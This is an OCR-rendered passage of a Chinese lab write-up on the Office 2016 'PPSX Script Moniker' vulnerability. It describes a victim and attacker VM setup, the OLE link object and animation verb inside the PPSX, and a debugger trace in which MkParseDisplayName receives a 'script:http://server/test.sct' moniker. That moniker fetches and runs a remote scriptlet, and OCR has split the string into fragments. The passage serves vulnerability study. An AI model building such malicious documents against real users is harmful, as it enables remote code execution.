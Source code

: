 Microsoft Office 2016 (64-bit edition)

## **漏洞测试环境**

 受害者（靶机）

 **操作系统:** `windows 7 sp1 x86`  

**Office****版本**`Office` `专业增强版` `2016`  

**ip** `192.168.89.129`

 攻击者

**操作系统Kali Linux** 

**ip**`192.168.89.134`

# 相关知识和工具简介

## “PPSX Script Moniker”漏洞——文件格式层面

① rId1”是一个被我们的” 魔术字符串”定义的OLE对象

![1.png](https://upload-images.jianshu.io/upload_images/7216746-08c5b93dfc7ab8b3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


② “rId1”被定义为一个“link”对象并且与尝试去执行OLE“Verb”动作的动画特性相关联

![2.png](https://upload-images.jianshu.io/upload_images/7216746-97e29c4e6309a1e7.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


③ 解析Moniker字符串

“MkParseDisplayName()”被调用以将“魔术字符串”转换成一个Moniker对象

   object

   0:000> r
   ……

   ole32!MkParseDisplayName:

   772ece79 8bff  mov edi,edi

   0:000> du poi(esp+4*2)

   0030ccc4   “[script:htt](http://server/test.sct)[p](http://server/test.sct)[://server](http://server/test.sct)[/](http://server/test.sct)[t](http://server/test.sct)[e](http://server/test.sct)[st.sc](http://server/test.sct)[t](http://server/test.sct)”

 事实上，在这里，第一个“:”之前的字符串是重要的

[ script]( script)：[http://server/test.sct](http://server/test.sct)

  这个过程有效小复杂，更多细节请阅读：

 [https://msdn.microsoft.com/en-us/library/windows/desktop/ms691253(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691253(v=vs.85).aspx)
